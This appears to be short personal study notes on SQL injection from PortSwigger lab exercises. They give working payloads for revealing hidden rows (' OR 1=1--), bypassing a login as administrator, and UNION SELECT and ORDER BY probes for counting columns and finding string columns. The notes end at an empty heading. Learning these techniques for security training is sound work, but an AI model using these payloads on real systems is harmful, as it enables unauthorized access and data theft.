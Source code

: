 SQL INJECTION - Portswigger Notes
-----------------



#### To find hidden data

```
` ' OR 1=1--`
```



#### Login bypass

```
administrator'--`
```

 

##Using UNION

1.to find no. of cols:
 i) ' UNION select NULL,NULL,NULL--

     no.of NULL's is no. of cols ->200 response

 ii) ' ORDER BY 1--

     no. determines cols. -> if shown internal error, it' correct value

1. to identify datatype of column
    ' UNION select NULL,'a',NULL
    i) if error its not string
    ii) else its string
    can be analysed by -> ' order by 1--

5. retrieving data from other table


























